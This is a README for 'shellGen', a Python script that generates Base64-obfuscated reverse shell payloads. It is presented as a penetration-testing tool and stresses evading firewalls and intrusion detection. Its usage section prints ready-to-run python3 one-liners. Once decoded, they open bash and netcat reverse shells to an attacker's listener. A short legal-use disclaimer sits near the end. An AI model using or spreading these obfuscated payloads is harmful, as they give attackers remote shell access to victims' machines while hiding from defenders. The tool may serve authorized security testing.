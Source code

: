 # shellGen
Shell Generator is a Python script that generates encoded reverse shells for penetration testing.

## Reverse Shell Generator

This Python script generates obfuscated reverse shell payloads for penetration testing and cybersecurity training purposes. It provides a shorter and encoded reverse shell, making it less likely to be detected by firewalls or intrusion detection systems (IDS).

## Features

- Supports two reverse shell methods:
  - **Bash**: A lightweight and portable option using `/bin/bash`.
  - **Netcat (nc)**: Netcat is used to create a reverse shell (requires Netcat to be installed on the target system).
- Obfuscates payloads with Base64 encoding to enhance evasion.
- Generates compact, Python-based commands to decode and execute the payload dynamically.

## Requirements

- Python 3.x

## Usage

### Command-Line Arguments

The script accepts the following arguments:

- `ip`: The IP address of the listener (attacker's machine).
- `port`: The port number for the listener.
- `method`: The reverse shell method (`bash` or `nc`).

### Example Usage

Generate a reverse shell using the Bash method:

```bash
python3 shellGen.py 192.168.1.10 4444 bash
```
### Output:
```bash
python3 -c "import base64,os;os.system(base64.b64decode('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAvNDQ0NCAwPiYx').decode())"
```
Generate a reverse shell using the Netcat method:

```bash
python3 shellGen.py 192.168.1.10 4444 nc
```
### Output:

``` python
python3 -c "import base64,os;os.system(base64.b64decode('bmMgMTkyLjE2OC4xLjEwIDQ0NDQgLWUgL2Jpbi9iYXNo').decode())"
```
How It Works
- The script creates a raw reverse shell payload based on the chosen method.
- The payload is encoded using Base64 for obfuscation.
- A compact Python command is generated to decode and execute the payload dynamically on the target machine.

## Considerations
* **Permissions**: Ensure you have appropriate permissions to test reverse shells in the target environment.
* **Detection**: While obfuscated, advanced security solutions may still detect these payloads. Additional evasion techniques can be layered if needed.
* **Legal Use Only**: This script is intended for educational purposes and authorized penetration testing. Unauthorized use is illegal and unethical.
## License
This project is open-source and licensed under the MIT License.

## Contributions
Feel free to contribute by adding new methods, improving obfuscation, or enhancing functionality. Fork the repository and submit a pull request.

## Contact
For questions or suggestions, contact:

- **Name**: Youssef Mouatta
- **Email**: dark88lime@gmail.com
- **GitHub**: [youssef-mouatta](https://github.com/youssef-mouatta)
- **LinkedIn**: [Youssef Mouatta](https://www.linkedin.com/in/youssef-mouatta/)
